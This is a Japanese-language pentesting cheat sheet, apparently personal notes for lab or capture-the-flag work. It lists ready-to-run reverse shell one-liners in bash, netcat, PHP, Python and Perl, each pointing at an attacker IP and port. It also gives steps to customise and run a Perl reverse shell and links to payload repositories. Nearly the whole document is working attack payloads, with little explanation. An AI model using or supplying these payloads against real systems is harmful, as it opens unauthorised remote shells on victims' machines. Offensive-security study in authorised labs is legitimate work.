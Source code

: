 # Reverse Shell

[toc]

## ncリバースシェル

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
nc -nv 10.10.14.30 4444 -e cmd.exe
```



## phpリバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい

#### 上記PHPのリバースシェルがエラーになる場合

利用できる関数が制限されている場合がある。phpinfo()関数を呼び出すことで確認が可能

![image-20230204155710137](img/reverseshell/image-20230204155710137.png)

![image-20230204155718698](img/reverseshell/image-20230204155718698.png)

そのような場合簡易版のPHPもリバースシェルとしてよく使える

#### shellコマンドでリバースシェルを張る場合

```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.167/1234 0>&1'");
?>
```



## pythonリバースシェル

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

```bash
/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.167",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



## perl

* 攻撃対象ホストでperlがあることを確認

  ```
  which perl
  whereis perl
  ```

* `/usr/share`からリバースシェルをコピーする

  ```bash
  cp /usr/share/webshells/perl/perl-reverse-shell.pl alpha-shell.pl
  ```

* ipとportを書き換える

  ```bash
  sed -i 's/my $ip = .*;/my $ip = "192.168.119.167";/; s/my $port = .*;/my $port = 444;/' alpha-shell.pl
  ```

* 実行する

  ```
  /usr/bin/perl /tmp/alpha-shell.pl
  ```



### Invoke-PowerShellTcp.ps1

[Invoke-PowerShellTcp.ps1](./Tools/powershell.md/#Nishang(Invoke-PowerShellTcp.ps1))
